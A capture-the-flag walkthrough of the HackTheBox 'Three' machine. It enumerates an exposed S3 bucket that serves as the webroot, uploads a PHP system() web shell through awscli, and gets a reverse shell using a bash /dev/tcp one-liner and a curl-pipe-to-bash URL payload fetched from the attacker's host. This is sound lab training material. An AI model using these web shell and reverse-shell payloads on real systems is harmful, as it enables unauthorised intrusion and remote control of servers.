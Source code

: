 ## Reconnaissance

Kicking off with a simple Nmap scan...
__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.50.86  
[sudo] password for darshan: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-22 09:02 EST
Nmap scan report for 10.129.50.86
Host is up (0.30s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Toppers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.57 seconds
```

Just like a typical ctf challenge, we got 2 open ports.
- port `22`: running `OpenSSH 7.6p1`
- port `80`: running `Apache httpd 2.4.29`

Visiting the website, I found out that it was just a static web-site which did nothing, but scrolling down to the bottom, I found an interesting thing. 

A domain `thetoppers.htb`. I added the domain to `/etc/hosts` file with the corresponding IP address to be able to access this domain in my browser.

The `/etc/hosts` file is used to resolve a hostname into an IP address. By default, the `/etc/hosts` file is
queried before the DNS server for hostname resolution thus we will need to add an entry in the
`/etc/hosts` file for this domain to enable the browser to resolve the address for `thetoppers.htb` .

```
echo "<machine IP> thetoppers.htb" | sudo tee -a /etc/hosts
```

## Enumeration

Now, I decided to run `gobuster` against the domain to enumerate sub-domains

```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u
http://thetoppers.htb
```

And i got back the following results: 

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ gobuster vhost -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb/
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/01/22 09:06:37 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
...
```

I added this sub-domain to the `/etc/hosts` file too.

```
echo "<machine IP> s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Visiting the web-page, I found out that it contains only the following JSON.
`{"status": "running"}`

![three-1](https://user-images.githubusercontent.com/87711310/213921329-b85f348d-1e0e-4341-9f74-4ee4420bd473.png)


It's an `aws s3 bucket`, so i decided to use `awscli` to further enumerate the machine

We can interact with this `S3 bucke`t with the aid of the `awscli` utility. It can be installed on Linux using the
command 
```
apt install awscli
```

Then, we need to configure it using the following command:
```
aws configure
```

We can list all of the S3 buckets hosted by the server by using the `ls` command.

```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 ls
2023-01-22 08:52:20 thetoppers.htb
```

We can also use the ls command to list objects and common prefixes under the specified bucket.

```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

And it retured the following results:
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-01-22 08:52:20          0 .htaccess
2023-01-22 08:52:20      11952 index.php
```


We see the files `index.php` , `.htaccess` and a directory called `images` in the specified bucket. It seems like
this is the webroot of the website running on port `80` . So the Apache server is using this S3 bucket as
storage.

`awscli` has got another feature that allows us to `copy files` to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution.

We can use the following PHP one-liner which uses the `system()` function which takes the URL parameter
cmd as an input and executes it as a system command.

```php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We can confirm that our shell is uploaded by navigating to `http://thetoppers.htb/shell.php`. 

Let us try executing the OS command `id` using the URL parameter `cmd` .

![three-2](https://user-images.githubusercontent.com/87711310/213921648-f1229ca8-bf7f-4bed-ab74-8300cb23857a.png)

The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.

```bash
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
```

We will start a `netcat` listener on our local port 1337 using the following command.
```
nc -lvnp 1337
```

Let's start a web server on our local machine on port 8000 and host this bash file.
```
python3 -m http.server 8000
```

We can use the curl utility to fetch the bash reverse shell file from our local host and then pipe it to bash
in order to execute it. Thus, let us visit the following URL containing the payload in the browser.

```
https://thetoppers.htb/shell.php?cmd=curl%20%3CYOUR_IP_ADDRESS%3E:8000/shell.sh|bash
```

We receive a reverse shell on the corresponding listening port.

```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 1337                              
listening on [any] 1337 ...
connect to [10.10.16.14] from (UNKNOWN) [10.129.50.86] 41150
bash: cannot set terminal process group (1571): Inappropriate ioctl for device
bash: no job control in this shell
www-data@three:/var/www/html$ whoami
whoami
www-data
...
```

The flag can be found at `/var/www/flag.txt` .
```
www-data@three:/var/www/html$ cd ..
cd ..
www-data@three:/var/www$ ls
ls
flag.txt
html
www-data@three:/var/www$ cat flag.txt
cat flag.txt
[REDACTED]
```

